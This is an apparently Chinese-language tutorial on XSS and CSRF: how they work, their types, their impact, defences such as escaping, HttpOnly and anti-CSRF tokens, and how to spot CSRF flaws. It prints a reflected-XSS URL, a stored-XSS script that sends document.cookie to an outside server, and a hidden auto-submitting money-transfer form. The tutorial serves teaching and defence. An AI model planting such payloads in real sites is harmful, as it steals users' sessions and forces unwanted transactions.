

# 跨站脚本攻击(XSS)
跨站脚本攻击XSS(Cross Site Scripting)，是为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS，XSS攻击是Web攻击中最常见的攻击方法之一，它是通过对网页注入可执行代码且成功地被浏览器执行，形成了一次有效XSS攻击，一旦攻击成功，它可以获取用户的Cookie、读取用户的联系人列表等隐私信息。
    
  
    
## XSS攻击的条件
XSS的目标是让恶意代码(包括HTML代码和客户端脚本)运行在目标站点上，这主要发生在页面渲染阶段。
    
实施XSS攻击需要具备两个条件：
1. 需要向web页面注入恶意代码。
2. 这些恶意代码能够被浏览器成功执行。
    

## XSS的原理
1. 攻击者对含有漏洞的服务器发起XSS攻击（注入JS代码）。
2. 诱使受害者打开受到攻击的服务器URL。
3. 受害者在Web浏览器中打开URL，恶意脚本执行。
    

## XSS攻击的危害
1. 盗取各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号
2. 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力
3. 盗窃企业重要的具有商业价值的资料
4. 非法转账
5. 强制发送电子邮件
6. 网站挂马
7. 控制受害者机器向其它网站发起攻击
    

## XSS攻击分类
XSS的发生起源来自于用户输入，因此XSS根据用户输入数据以何种形式、何时触发XSS、是否有后端服务器的参与划分为三种类型，分别是反射型XSS、持久型XSS和DOM XSS。
    
- 反射型： 又称为非持久性跨站点脚本攻击，它是最常见的类型的XSS。漏洞产生的原因是攻击者注入的数据反映在响应中。一个典型的非持久性XSS包含一个带XSS攻击向量的链接(即每次攻击需要用户的点击)。详细说就是发出请求时，XSS代码出现在URL中，作为输入提交到服务器端，服务器端解析后响应，XSS随响应内容一起返回给浏览器，最后浏览器解析执行XSS代码，这个过程就像一次发射，所以叫反射型XSS。
    
正常消息发送：
    
```
http://www.example.com/send?to=lisi&message=hello world
```

服务器端不做处理直接转发给消息接收者：
    
```
<html>
<body>
<span><%=request.getAttribute("message")%></span>
</body>
</html>
```
    
接收者将会接收信息并显示 `hello world`。
    

恶意消息发送：
    
```
http://www.example.com/send?to=lisi&message=<script>alert(‘foolish’)</script>
```
    
接收者接收消息显示的时候将会弹出警告窗口。
    

- 存储型: 存储型XSS和反射型的XSS差别就在于，存储型的XSS提交的代码会存储在服务器端（数据库，内存，文件系统等），下次请求目标页面时不用再提交XSS代码。又称为持久型跨站点脚本，当一个页面被用户打开的时候执行。每当用户打开浏览器,脚本执行。持久的XSS相比非持久性XSS攻击危害性更大,因为每当用户打开页面，查看内容时脚本将自动执行。
    
博客中有发表评论的功能，该评论会写入后台数据库，并且在其他人访问主页的时候，会从数据库中加载出所有的评论。
    
添加一个暗藏恶意脚本的评论，当别人访问主页的时候，刚刚黑客写入的评论里面的脚本被浏览器当成代码执行了，用户莫名其妙受到攻击。
    
```
<script>
(function() {
    var img = document.createElement("img");
    img.src = "http://www.myserver.com/getCookie?cookie=" + document.cookie;
    img.style.display = "none";
    document.body.appendChild(img);
})();
</script>
```
    

## XSS的防御措施
XSS漏洞的起因就是没有对用户提交的数据进行严格的过滤处理。因此在思考解决XSS漏洞的时候，我们应该重点把握如何才能更好的将用户提交的数据进行安全过滤。
    
- 用户输入的内容进行转义，对一些特殊字符 ' " < > & 等进行转义

- 过滤或移除特殊的Html标签， <script>, <iframe> 等。

- 过滤JavaScript 事件的标签。"onclick=", "onfocus" 等。

- 对表单输入域做长度限制和校验

- 将重要的cookie标记为httponly, 这样document.cookie语句就不能获取到cookie了。
    


# 跨站请求伪造（CSRF）
CSRF（Cross-site request forgery）跨站请求伪造，也被称为“One Click Attack”或者Session Riding 会话劫持。尽管听起来像跨站脚本（XSS），但它与XSS非常不同，XSS利用站点内的信任用户，而CSRF则通过伪装成受信任用户的请求来利用受信任的网站。与XSS攻击相比，CSRF攻击往往难以防范，所以被认为比XSS更具危险性。
    
  
    
```

```
    
当你打开含有了这张图片的HTML页面时，如果你之前已经在银行网站登录了你的银行帐号并且Cookie仍然有效，你银行里的钱很可能会被自动转走。
    
CSRF的防御：

- 尽量使用POST，限制GET。GET接口太容易被拿来做CSRF攻击，只要构造一个img标签，而img标签又是不能过滤的数据。接口最好限制为使用POST，GET则无效，降低攻击风险。当然POST并不是万无一失，攻击者只要构造一个隐藏的iframe form就可以。
    
```
<form id="attack" action="http://www.xxx.com/transfer.do" metdod="POST" display="none">
    <input type="text" name="accountNum" value="10001"/>
    <input type="text" name="money" value="10000"/>
</form>
<script>
    var form = document.forms('attack');
    form.submit();
</script>
```
    
- 将Cookie设置为HttpOnly。CRSF攻击很大程度上是利用了浏览器的cookie，为了防止站内的XSS漏洞盗取cookie，需要在cookie中设置“HttpOnly”属性，这样通过程序（如JavaScript脚本、Applet等）就无法读取到cookie信息，避免了攻击者伪造cookie的情况出现。
    
- 用于敏感信息的Cookie设置较短的生命周期。Cookie分为两种，Session Cookie（在浏览器关闭后就会失效，保存在内存里），Third-party Cookie（即只有到了Exprie时间后才会失效的Cookie，这种Cookie会保存到本地）。

- 通过Referer识别。在HTTP头中有一个字段叫Referer，它记录了该HTTP请求的来源地址。在通常情况下，访问一个安全受限的页面的请求都来自于同一个网站。如果攻击者要对银行网站实施CSRF攻击，他只能在其他网站构造请求，当用户通过其他网站发送请求到银行时，该请求的Referer的值是其他网站的地址，而不是银行转账页面的地址。因此，要防御CSRF攻击，银行网站只需要对于每一个转账请求验证其Referer值即可。但是因为服务器并不是什么时候都能取到Referer，所以也无法作为CSRF防御的主要手段。用Referer Check来监控CSRF攻击的发生，倒是一种可行的方法。

- Anti CSRF Token。现在业界对CSRF的防御，一致的做法是使用一个Token（Anti CSRF Token）。
    - 用户访问某个表单页面。
    - 服务端生成一个Token，放在用户的Session中。
    - 在页面表单附带上隐藏的Token参数域。
    - 用户提交请求后， 服务端验证表单中的Token是否与用户Session中的Token一致，一致为合法请求，不是则非法请求。
    - 这个Token的值必须是随机的，不可预测的。由于Token的存在，攻击者无法再构造一个带有合法Token的请求实施CSRF攻击。另外使用时应注意Token的保密性，尽量把敏感操作由GET改为POST，以form或AJAX形式提交，避免Token泄露。CSRF的Token仅仅用于对抗CSRF攻击，无法防范XSS攻击。

- 在 HTTP 头中自定义属性并验证。这种方法也是使用 token 并进行验证，和Anti CSRF Token不同的是，这里并不是把 token 以参数的形式置于 HTTP 请求之中，而是把它放到 HTTP 头中自定义的属性里。通过 XMLHttpRequest 这个类，可以一次性给所有该类请求加上X-Token-Auth 头属性，并把 token 值放入其中。然而这种方法的局限性非常大。XMLHttpRequest 请求通常用于 Ajax 方法中对于页面局部的异步刷新，并非所有的请求都适合用这个类来发起，而且通过该类请求得到的页面不能被浏览器所记录下，无法进行前进，后退，刷新等操作，给用户带来不便。
    

## CSRF漏洞的挖掘

- 最简单的方法就是抓取一个正常请求的数据包，如果没有Referer字段和token，那么极有可能存在CSRF漏洞。

- 如果有Referer字段，但是去掉Referer字段后再重新提交，如果该提交还有效，那么基本上可以确定存在CSRF漏洞。

- 随着对CSRF漏洞研究的不断深入，不断涌现出一些专门针对CSRF漏洞进行检测的工具，如CSRFTester，CSRF Request Builder等。 


## XSS 和 CSRF的区别
- XSS是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在打开网页时就会受到影响。这类攻击通常包含了HTML以及客户端脚本语言。

- CSRF是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。

- XSS更偏向于代码实现（即写一段拥有跨站请求功能的JavaScript脚本注入到一条帖子里，然后有用户访问了这个帖子，这就算是中了XSS攻击了），CSRF更偏向于一个攻击结果，只要发起了冒牌请求那么就算是CSRF了。
  

